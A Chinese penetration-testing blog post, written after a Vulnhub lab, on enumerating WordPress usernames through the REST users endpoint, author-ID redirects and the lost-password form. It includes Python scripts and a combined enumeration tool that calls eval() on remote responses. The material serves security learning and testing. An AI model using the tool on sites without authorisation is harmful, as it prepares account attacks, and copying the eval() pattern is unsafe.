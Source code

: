 ```yaml
---
layout:     post
title:      总结wordpress枚举用户名的四种方式
subtitle:   如何枚举wordpress用户名？
date:       2019-06-29
author:     木已成舟
header-img: img/post-bg-rwd.jpg
catalog: 	 true
tags:
    - 渗透测试
---
```

# 前言
前几天在做Vulnhub DC-2 靶机的时候，80端口上的Web应用程序是WordPress，当时想用WPScan来枚举用户的，但是Kali Linux 和Parrot OS 上的WPScan都用不了了。于是，我上了google去搜了一些关于WordPress枚举用户的文章，顺便记录一下，以后实战中遇到WordPress的站可以多一些尝试！
# 方式
## 方式一：利用接口
通过这个接口，可以获取到部分的用户名
```
/index.php/wp-json/wp/v2/users/?per_page=100&page=1
```
如下图所示，找到了2个用户名，虽然不全，但是也是一个可以利用的点：
![图片](../../../../img/wp-user-1.png)

下面通过Python脚本来自动实现：
```
import requests

users_list = []
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'}

response = requests.get(target + "/index.php/wp-json/wp/v2/users/?per_page=100&page=1",headers=headers)
r_text = eval(response.text)
for i in range(0,10):
    users_list.append(r_text[i]['name'])
```

## 方式二：利用遍历author参数
如果存在author为1的，就会重定向到作者页面
```
/?author=1
```
如下图所示，可以看到页面的标题变成了admin，因此可以通过脚本来做到枚举用户名：
![图片](../../../../img/wp-user-2.png)
python代码如下：
```
import requests
from bs4 import BeautifulSoup
users_list = []

for i in range(1,10):
    r = requests.get(target+"/?author=%s" % i)
    if r.status_code == 200:
        con = r.content
        soup = BeautifulSoup(con, "html.parser")
        title = soup.head.title.string
        title = title.strip()
        title = title.split("–")
        title = title[0].strip()
        if title not in users_list:
            users_list.append(title)
```
## print(users_list)

方式三：后台忘记密码功能
由于后台密码忘记功能那里，会让你输入用户名，如果存在就302重定向到下一个页面，如果不存在状态码是200。因此写了一个python脚本：
```
import requests
users_list = []

post_headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36',
           'Content-Type':'application/x-www-form-urlencoded'}
usernames = open("users_list.txt","r",encoding='utf-8',errors='ignore')
for user in usernames:
    user = user.strip()
    data = "user_login=%s&redirect_to=&wp-submit=Get+New+Password" % user
    forget_r = requests.post(target + "/wp-login.php?action=lostpassword",headers=post_headers,data=data,allow_redirects=False)
    if forget_r.status_code == 302:
        if user not in users_list:
            users_list.append(user)
print(users_list)
usernames.close()
```

## 方式四：通过xmlrpc.php
这个方法，我这本地测试没成功，国外有一篇文章写的很详细，可以看一下：[https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32](https://medium.com/@the.bilal.rizwan/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)

# Python脚本自动化
### 代码
这里就把上述的三种方式整合一下，打造一个用来枚举WordPress用户名的小工具。
```
#!/usr/bin/python
# -*- coding:utf-8 -*-
# wirter:En_dust
# Blog:https://www.opensource-sec.com/
import requests
from bs4 import BeautifulSoup
users_list = []
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'}

def enumerat_user(target):
    try:
        response = requests.get(target + "/index.php/wp-json/wp/v2/users/?per_page=100&page=1",headers=headers)
        r_text = eval(response.text)
        for i in range(0,10):
            users_list.append(r_text[i]['name'])
    except:
        pass
    finally:
        print(users_list)

    for i in range(1,10):
        r = requests.get(target+"/?author=%s" % i)
        if r.status_code == 200:
            con = r.content
            soup = BeautifulSoup(con, "html.parser")
            title = soup.head.title.string
            title = title.strip()
            title = title.split("–")
            title = title[0].strip()
            if title not in users_list:
                users_list.append(title)
    print(users_list)

    post_headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36',
               'Content-Type':'application/x-www-form-urlencoded'}
    usernames = open("users_list.txt","r",encoding='utf-8',errors='ignore')
    for user in usernames:
        user = user.strip()
        data = "user_login=%s&redirect_to=&wp-submit=Get+New+Password" % user
        forget_r = requests.post(target + "/wp-login.php?action=lostpassword",headers=post_headers,data=data,allow_redirects=False)
        if forget_r.status_code == 302:
            if user not in users_list:
                users_list.append(user)
    print(users_list)
    usernames.close()


def main():
    print("WordPress枚举用户名工具")
    website = input("输入一个由WordPress搭建的网站：")
    enumerat_user(website)


if __name__ == '__main__':
```
    main()


